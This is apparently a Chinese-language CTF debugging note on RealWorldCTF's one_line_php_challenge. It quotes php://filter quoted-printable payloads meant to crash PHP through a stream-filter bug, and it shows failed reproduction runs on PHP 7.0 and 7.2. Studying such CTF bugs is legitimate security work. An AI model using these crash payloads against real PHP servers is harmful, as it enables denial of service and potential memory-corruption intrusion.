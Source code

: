 ```yaml
---
title: ctf题目-php调试分析
tags: ctf_php_debug
abbrlink: 31116
date: 2018-12-05 11:41:55
---
```


## 小菜，加油

## php流处理的bug

案例: realwordctf-one_line_php_challenge

参考链接: https://hackmd.io/s/rJlfZva0m#exp

ubuntu18.04 复现一直失败，payload打过去之后，即便已经造成segmentfault,上传文件依然保留不下来。我是很懵逼啊. 比赛给的dockerfile，到目前为止也没有运行成功。。。。。。。。。。。。。。。。。。

先不考虑ubuntu18.04, 直接在ubuntu16.04上调试。

payload1:

```
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data:    //,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
```

本机测试payload1，一个都没有成功，那些大佬也不知道怎么搞出来的，懵逼啊，做题，估计还缺点运气。

php7.2:

```
tiandiwuji@tiandiwuji:~/Desktop$ php -v
PHP 7.2.10-0ubuntu0.18.04.1 (cli) (built: Sep 13 2018 13:45:02) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.10-0ubuntu0.18.04.1, Copyright (c) 1999-2018, by Zend Technologies
tiandiwuji@tiandiwuji:~/Desktop$ cat test.php
<?php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data:    //,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
# file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
?>
tiandiwuji@tiandiwuji:~/Desktop$ php test.php 
No core dump
```

php7.0:

```
qianfa@qianfa:~/Desktop/php_debug$ php -v
PHP 7.0.32-0ubuntu0.16.04.1 (cli) ( NTS )
Copyright (c) 1997-2017 The PHP Group
Zend Engine v3.0.0, Copyright (c) 1998-2017 Zend Technologies
    with Zend OPcache v7.0.32-0ubuntu0.16.04.1, Copyright (c) 1999-2017, by Zend Technologies
qianfa@qianfa:~/Desktop/php_debug$ cat test.php
<?php
#file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA87654321AAAAAAAAAAAAAAAAAAAAAAAA'));
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf%bf'));
echo "No core dump";
?>
qianfa@qianfa:~/Desktop/php_debug$ php test.php 
No core dump
```